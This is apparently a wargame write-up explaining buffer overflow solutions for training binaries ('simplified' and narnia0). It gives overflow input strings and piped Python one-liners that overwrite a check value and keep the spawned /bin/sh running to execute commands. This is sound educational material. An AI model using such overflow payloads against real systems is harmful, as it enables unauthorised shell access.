 # Day 3
## Solution - `simplified`
As you can see, the length of array `buf` is 20, while `scanf()` accept a input string with length 21. So you can directly do the overflow with input `AAAAAAAAAAAAAAAAAAAAW`.
## Solution - `narnia0`
It's nearly same as `simplified`. However, you should input some special characters, which situation you will always meet in exploition.

The usual way is using Python to output it. Don't forget the endian issue. So you can get the input string with Python script `print 'A'*20+'\xef\xbe\xad\xde'`

But you will find that you don't get a shell from the program. Why? Because the bash add an `EOF` at the end of the string which python output. Although the program executes the `/bin/sh`, getting an `EOF` will end the shell. So, if you want to send a command to the program to execute in `/bin/sh`, you can run `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo "id") | /narnia/narnia0`. The `/bin/sh` will get the `id` and run it. You can read the flag in the same way.

Now, someone may want to get a interactive shell. It's very clever to run `(python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0`. The `cat` will read string from the `STDIN`, and send it by the pipe to `/bin/sh`, which is executed by the `narnia0`.
